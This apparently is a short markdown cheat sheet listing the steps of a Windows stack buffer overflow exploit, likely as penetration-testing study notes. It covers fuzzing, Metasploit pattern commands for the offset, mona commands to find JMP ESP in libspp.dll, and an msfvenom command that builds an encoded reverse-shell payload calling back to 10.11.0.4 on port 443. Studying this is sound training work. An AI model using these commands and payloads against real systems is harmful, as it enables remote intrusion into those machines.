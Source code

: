 1. Fuzz
- Use Spiking
- Use simple python script
2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
```
msf-pattern_create -l 800
msf-pattern_offset -l 800 -q 42306142
```
3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
4. Find module and JMP ESP
- Use metasploit nasm_shell
- Use debugger and mona to find JMP ESP
```
!mona modules
!mona find -s “\xff\xe4” -m “libspp.dll”,
```
5. Create shellcode
 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```
